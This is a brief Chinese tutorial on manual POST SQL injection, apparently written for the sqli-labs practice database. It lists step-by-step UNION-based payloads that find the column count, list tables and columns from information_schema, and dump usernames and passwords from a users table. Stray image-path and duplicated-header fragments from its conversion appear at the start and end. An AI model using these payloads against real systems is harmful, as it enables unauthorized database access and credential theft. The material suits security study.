 

---


---


## 一、POST（手工）SQL注入基本步骤：

> 
<h3> 2.1、第一步：判断是否存在SQL漏洞</h3>
在输入框中填入一些闭合的符号，看页面是否异常
如： ’        "          ')          ")
当页面发生错误，则证明闭合有效
有时单双引号闭合后，还要考虑括号个数
<hr/>

<h3>2.2、第二步：判断字段数</h3>
例如：
”)order by 3#
当回显正确的时候，就判断出字段数
<hr/>
<h3>2.3、第三步：判断回显点</h3>
使用union 联合查询找到回显点
例如：
") union select 1,2,3#
<hr/>
<h3>2.4、第四步：查询当前数据库</h3>
例如：
") union select 1,database(),3#
<hr/>
<h3>2.5、第五步：查表名</h3>
例如：
") union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=“security” #
<hr/>
<h3>2.6、第六步：查字段</h3>
例如：
") union select 1,2,group_concat(column_name) from information_schema.columns where table_name=“users” #
<hr/>
<h3>2.7、第七步：查数据</h3>
例如：
")union select 1,username,password from users where id=2 #


### 2.2、第二步：判断字段数

---


### 2.4、第四步：查询当前数据库

---